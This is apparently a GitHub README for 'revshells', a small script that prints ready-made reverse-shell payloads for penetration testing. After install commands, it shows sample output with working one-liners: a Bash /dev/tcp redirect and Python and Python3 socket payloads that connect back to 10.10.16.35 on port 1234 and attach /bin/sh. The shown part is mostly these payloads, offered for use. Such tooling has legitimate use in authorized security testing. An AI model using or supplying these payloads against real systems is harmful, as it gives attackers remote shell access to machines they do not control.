 ## Revshells

### Purpose
Got sick of looking for the same payloads every time you want to pop a reverse shell? This simple script will print via the terminal the most common revshell payloads you can find on the web.

There are plenty of payloads online but this script includes:
- Bash
- Python
- Netcat
- Perl
- PHP

The script is easily customizable so you can add your own payloads aswell


### Installation
```
sudo wget https://raw.githubusercontent.com/Anja-dhnd/revshells/main/revshells -O /usr/local/bin/revshells
sudo chmod +x /usr/local/bin/revshells
username=$(whoami)
sudo chown $username /usr/local/bin/revshells

```

### Port 

By default, **if no arguments are provided**, the script will use 9001 as the default port. You can customize this easily on the script.

However, if you want to specify your own port, you can execute the script as follows.
```
revshells 1234
```

Which generates the following output:

```
Bash
bash -i >& /dev/tcp/10.10.16.35/1234 0>&1

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
.....
```
